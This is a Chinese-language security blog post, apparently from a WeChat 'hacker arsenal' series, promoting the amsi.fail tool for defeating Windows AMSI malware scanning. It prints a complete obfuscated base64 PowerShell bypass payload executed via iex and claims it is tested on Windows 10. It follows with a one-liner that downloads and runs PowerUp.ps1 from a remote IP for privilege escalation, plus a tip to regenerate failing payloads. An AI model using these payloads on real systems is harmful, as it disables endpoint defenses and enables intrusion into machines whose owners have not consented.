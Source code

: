 #  黑客武器库 | AMSI.fail完美bypass AMSI   
原创 玄鹄安全  高级红队专家   2024-12-03 23:06  
  
**0-简介**  
  
【OSCP必备  
】【OSEP必备  
】  
【实战必备  
】  
  
amsi.fail是一款AMSI bypass神器  
  
**1-名称**  
  
```
https://amsi.fail/
```  
  
  
**2-来源**  
```
https://github.com/Flangvik/AMSI.fail
```  
  
**3-用法**  
  
打开https://amsi.fail/，点击“Generate Encoded”生成加密的powershell脚本，在目标机器上运行即可bypass AMSI。下面是一个例子，windows10下亲测可用：  
```
[sySTem.tEXT.enCodinG]::UniCodE.gEtSTriNg([SySTEM.COnVeRT]::FROmBASe64StrING("IwBNAGEAdAB0ACA
ARwByAGEAZQBiAGUAcgBzACAAcwBlAGMAbwBuAGQAIABSAGUAZgBsAGUAYwB0AGkAbwBuACAAbQBlAHQAaABvAGQAIAAKACQAcwBiAE0AVQBGAF8AcAB0ADY
AYQBoAHoAZABQAHAAMQBsAEUAQQA9ACQAbgB1AGwAbAA7ACQAXwBPAF8AegA5ADIAbQBhAHEARABBAFYAVwA2AE4AdwA9ACIAUwB5AHMAdABlAG0ALgAkACg
AKAAnAE0A4ABuAOEAZwDqACcAKwAnAG0A6QBuAHQAJwApAC4AbgBvAHIATQBBAEwAaQBaAGUAKABbAEMASABBAHIAXQAoAFsAQgBZAHQARQBdADAAeAA0ADY
AKQArAFsAQwBoAEEAUgBdACgAMQAxADEAKgA1ADUALwA1ADUAKQArAFsAYwBIAEEAUgBdACgAMQAxADQAKwA2ADAALQA2ADAAKQArAFsAQwBIAEEAcgBdACg
AOQAzACsAMQA2ACkAKwBbAGMAaABhAHIAXQAoADYAOAApACkAIAAtAHIAZQBwAGwAYQBjAGUAIABbAEMAaABhAHIAXQAoAFsAQgB5AHQARQBdADAAeAA1AGM
AKQArAFsAQwBIAGEAUgBdACgAMQAxADIAKQArAFsAQwBIAGEAUgBdACgAMQAyADMAKQArAFsAQwBIAEEAUgBdACgAMQAxACsANgA2ACkAKwBbAEMAaABBAHI
AXQAoADEAMQAwACkAKwBbAEMAaABBAFIAXQAoAFsAYgBZAFQARQBdADAAeAA3AGQAKQApAC4AJAAoACgAJwDAAPsAdAD1ACcAKwAnAG0A4gB0AO0AJwArACc
A9ABuACcAKQAuAG4AbwByAE0AYQBsAEkAWgBlACgAWwBDAGgAQQByAF0AKABbAGIAWQB0AGUAXQAwAHgANAA2ACkAKwBbAGMAaABBAHIAXQAoAFsAQgBZAFQ
ARQBdADAAeAA2AGYAKQArAFsAQwBIAEEAUgBdACgAWwBCAFkAdABlAF0AMAB4ADcAMgApACsAWwBDAGgAYQByAF0AKAA0ADYAKwA2ADMAKQArAFsAYwBoAEE
AcgBdACgANgA4ACoAMQA0AC8AMQA0ACkAKQAgAC0AcgBlAHAAbABhAGMAZQAgAFsAQwBIAGEAcgBdACgAWwBCAFkAVABFAF0AMAB4ADUAYwApACsAWwBjAEg
AQQByAF0AKABbAEIAeQB0AEUAXQAwAHgANwAwACkAKwBbAGMASABBAFIAXQAoAFsAQgB5AFQARQBdADAAeAA3AGIAKQArAFsAQwBoAGEAcgBdACgAWwBCAFk
AdABlAF0AMAB4ADQAZAApACsAWwBDAEgAQQBSAF0AKAA1ACsAMQAwADUAKQArAFsAYwBIAGEAcgBdACgAWwBCAHkAdABFAF0AMAB4ADcAZAApACkALgAkACg
AWwBDAGgAYQBSAF0AKAAxADAAKwA1ADUAKQArAFsAQwBIAEEAUgBdACgAMQAwADkAKwA4ADkALQA4ADkAKQArAFsAYwBIAEEAUgBdACgAWwBiAFkAdABFAF0
AMAB4ADcAMwApACsAWwBDAEgAQQByAF0AKABbAEIAWQB0AEUAXQAwAHgANgA5ACkAKwBbAEMASABBAHIAXQAoAFsAYgBZAFQAZQBdADAAeAA1ADUAKQArAFs
AYwBIAEEAUgBdACgANAA0ACsANwAyACkAKwBbAGMAaABBAHIAXQAoAFsAYgB5AFQARQBdADAAeAA2ADkAKQArAFsAQwBoAEEAcgBdACgAWwBCAHkAVABFAF0
AMAB4ADYAYwApACsAWwBDAEgAYQBSAF0AKAA2ADkAKwA0ADYAKQApACIAOwAkAHIAdgBwAHQAegBqAGQAdwB2AG4AeAB1AHQAagBxAHkAbwBiAGYAcAB2AD0
AIgArACgAJwDpACcAKwAnAOwAJwArACcAYgAnACkALgBuAE8AUgBtAEEAbABJAHoAZQAoAFsAYwBoAEEAUgBdACgANwAwACoANQA4AC8ANQA4ACkAKwBbAEM
ASABBAHIAXQAoADQAOQArADYAMgApACsAWwBDAGgAQQByAF0AKAA3ADQAKwA0ADAAKQArAFsAQwBoAEEAcgBdACgAWwBiAHkAdABlAF0AMAB4ADYAZAApACs
AWwBjAEgAQQByAF0AKAA2ADgAKwA5AC0AOQApACkAIAAtAHIAZQBwAGwAYQBjAGUAIABbAEMASABBAHIAXQAoADMANgArADUANgApACsAWwBDAEgAYQBSAF0
AKABbAGIAWQB0AGUAXQAwAHgANwAwACkAKwBbAGMASABBAHIAXQAoAFsAQgB5AFQAZQBdADAAeAA3AGIAKQArAFsAQwBoAEEAUgBdACgANwA3ACsAMwAxAC0
AMwAxACkAKwBbAEMASABhAFIAXQAoADEAMQAwACsANQA0AC0ANQA0ACkAKwBbAGMASABhAHIAXQAoADEAMgA1ACsANAAwAC0ANAAwACkAIgA7AFsAVABoAHI
AZQBhAGQAaQBuAGcALgBUAGgAcgBlAGEAZABdADoAOgBTAGwAZQBlAHAAKAAxADQANwA2ACkAOwBbAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFM
AZQByAHYAaQBjAGUAcwAuAE0AYQByAHMAaABhAGwAXQA6ADoAKAAiACQAKAAoACcAVwByAO4AdAAnACsAJwDqAM0AbgB0ACcAKwAnADMAMgAnACkALgBOAG8
AcgBNAEEAbABpAFoAZQAoAFsAQwBIAGEAcgBdACgANwAwACkAKwBbAGMASABBAFIAXQAoADEAMQAxACkAKwBbAEMAaABhAFIAXQAoAFsAQgBZAFQAZQBdADA
AeAA3ADIAKQArAFsAQwBIAEEAcgBdACgAWwBiAHkAdABFAF0AMAB4ADYAZAApACsAWwBjAGgAYQBSAF0AKABbAGIAeQB0AEUAXQAwAHgANAA0ACkAKQAgAC0
AcgBlAHAAbABhAGMAZQAgAFsAYwBIAEEAcgBdACgANAA0ACsANAA4ACkAKwBbAEMASABhAHIAXQAoADEAMQAyACsAMwAwAC0AMwAwACkAKwBbAEMAaABhAHI
AXQAoADEAMgAzACoANQA4AC8ANQA4ACkAKwBbAGMASABBAHIAXQAoADUANQArADIAMgApACsAWwBjAGgAQQByAF0AKABbAEIAeQB0AEUAXQAwAHgANgBlACk
AKwBbAEMASABBAHIAXQAoAFsAYgB5AFQAZQBdADAAeAA3AGQAKQApACIAKQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGU
AKAAkAF8ATwBfAHoAOQAyAG0AYQBxAEQAQQBWAFcANgBOAHcAKQAuAEcAZQB0AEYAaQBlAGwAZAAoACIAJAAoAFsAQwBIAEEAUgBdACgAWwBiAHkAdABFAF0
AMAB4ADYAMQApACsAWwBjAGgAYQByAF0AKAAxADAAOQArADcANwAtADcANwApACsAWwBDAGgAYQBSAF0AKABbAGIAeQB0AEUAXQAwAHgANwAzACkAKwBbAEM
ASABhAHIAXQAoADEAMAA1ACkAKwBbAGMASABhAHIAXQAoAFsAYgB5AHQARQBdADAAeAA0ADMAKQArAFsAQwBIAGEAcgBdACgAMQAxADEAKQArAFsAYwBIAEE
AcgBdACgAWwBiAFkAVABlAF0AMAB4ADYAZQApACsAWwBjAGgAQQByAF0AKAAxADEANgArADIANwAtADIANwApACsAWwBDAEgAQQByAF0AKAAxADAAMQArADQ
AOAAtADQAOAApACsAWwBDAEgAYQBSAF0AKAAxADIAMAArADMANwAtADMANwApACsAWwBjAEgAQQByAF0AKABbAGIAWQB0AEUAXQAwAHgANwA0ACkAKQAiACw
AWwBSAGUAZgBsAGUAYwB0AGkAbwBuAC4AQgBpAG4AZABpAG4AZwBGAGwAYQBnAHMAXQAiAE4AbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAIgApAC4
ARwBlAHQAVgBhAGwAdQBlACgAJABzAGIATQBVAEYAXwBwAHQANgBhAGgAegBkAFAAcAAxAGwARQBBACkALAAwAHgAMgBjADUAYQAzADAAZAA0ACkAOwAkAGg
AYgBuAHEAcgBuAGMAYwBrAGIAYQB1AGQAYQB6AHgAYgBsAGIAdgBoAG0AYgBkAGcAZwBvAG0APQAiACsAKAAnAHMAbgBzACcAKwAnAHgAcgB5ACcAKQAuAG4
ATwByAG0AQQBMAEkAWgBFACgAWwBjAGgAYQByAF0AKABbAEIAWQBUAEUAXQAwAHgANAA2ACkAKwBbAGMASABBAHIAXQAoADEAMQAxACoAMgAxAC8AMgAxACk
AKwBbAGMAaABhAFIAXQAoAFsAQgBZAHQARQBdADAAeAA3ADIAKQArAFsAQwBIAEEAcgBdACgAWwBiAHkAVABlAF0AMAB4ADYAZAApACsAWwBDAEgAYQBSAF0
AKABbAGIAWQB0AEUAXQAwAHgANAA0ACkAKQAgAC0AcgBlAHAAbABhAGMAZQAgAFsAQwBIAEEAUgBdACgAWwBCAHkAdABFAF0AMAB4ADUAYwApACsAWwBDAEg
AQQByAF0AKAAzADUAKwA3ADcAKQArAFsAYwBIAEEAcgBdACgAMQAxADAAKwAxADMAKQArAFsAYwBIAGEAUgBdACgANgArADcAMQApACsAWwBjAEgAYQBSAF0
AKABbAGIAWQB0AGUAXQAwAHgANgBlACkAKwBbAGMAaABBAFIAXQAoAFsAYgBZAHQAZQBdADAAeAA3AGQAKQAiADsAWwBUAGgAcgBlAGEAZABpAG4AZwAuAFQ
AaAByAGUAYQBkAF0AOgA6AFMAbABlAGUAcAAoADEANgA5ADQAKQA="))|iex
```  
  
后面再执行就可以bypass AMSI了  
```
iex ((New-Object System.Net.WebClient).DownloadString("http://192.168.136.131/PowerUp.ps1"))
Invoke-AllChecks
```  
  
**4-实际案例**  
  
**加载PowerUp被禁止:**  
```
iex ((New-Object System.Net.WebClient).DownloadString("http://192.168.136.131/PowerUp.ps1"))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umdnBWI6ibpLtPGNib6FUjkpkUqUYnDJceqzQ2tuNfrE5g2Na9rvouUN4U3D0pq4KBKUZ048poWMvxoQ/640?wx_fmt=png&from=appmsg "")  
  
**生成bypass AMSI命令并执行：**  
```
https://amsi.fail/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umdnBWI6ibpLtPGNib6FUjkpkUZOoeVyhWvvzKvDibzo5gia4IjR8iaEHCNB3Evt2d3icicB3ia19OPpEQQhOA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umdnBWI6ibpLtPGNib6FUjkpkUIWvydL71RfCK54SZIC9gwB3wCyiaeqAc9NM6G6bCpZRY30ZriafIkdYg/640?wx_fmt=png&from=appmsg "")  
  
执行成果，完美bypass AMSI  
  
**考试技巧：**  
  
https://amsi.fail/中的代码不一定每次都可以成功bypass，如果不成功再生成一个再执行即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VZNmh6ic5umdJEQHgyFkaSKNicmUpUQhdRTvrhqbPbkgfKC7Q7GibHIaU60jEcusoibjC8EvJkNGrVo2Hlib3Z809NQ/640?wx_fmt=jpeg&from=appmsg "")  
  
往期精选：  
  
[黑客武器库 | 开篇](https://mp.weixin.qq.com/s?__biz=MzIzODMyMzQxNQ==&mid=2247483902&idx=1&sn=958654c5a58e7ca7ea5288726f54d909&scene=21#wechat_redirect)  
  
  
[黑客武器库 | RustScan](https://mp.weixin.qq.com/s?__biz=MzIzODMyMzQxNQ==&mid=2247483942&idx=1&sn=5204c46412a10380a897adcd6c59ae2c&scene=21#wechat_redirect)  
  
  
[黑客武器库 | CobaltSrike](https://mp.weixin.qq.com/s?__biz=MzIzODMyMzQxNQ==&mid=2247484051&idx=1&sn=12a52e087b27833e54aee2dd3485b57a&scene=21#wechat_redirect)  
  
  
[黑客武器库 | IDA BETA 9.0](https://mp.weixin.qq.com/s?__biz=MzIzODMyMzQxNQ==&mid=2247484065&idx=1&sn=5f19f0936d483b3efb948785de9129a8&scene=21#wechat_redirect)  
  
  
[黑客武器库 | Linux提权神器GTFOBins](https://mp.weixin.qq.com/s?__biz=MzIzODMyMzQxNQ==&mid=2247484132&idx=1&sn=ab7cc66893a29e29eb5c9293ac3e555d&scene=21#wechat_redirect)  
  
  
**更多技术资料加Q群获取交流**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VZNmh6ic5ume2jmTJQmbJibm5HL4ZuZJT0bnradFAnla3kFxr2XU1o9kFVTbos0go4zutJibuysORoZiafxzhgL8Zw/640?wx_fmt=jpeg "")  
  
  
  
  
  
  
  
  
  
  
  
  
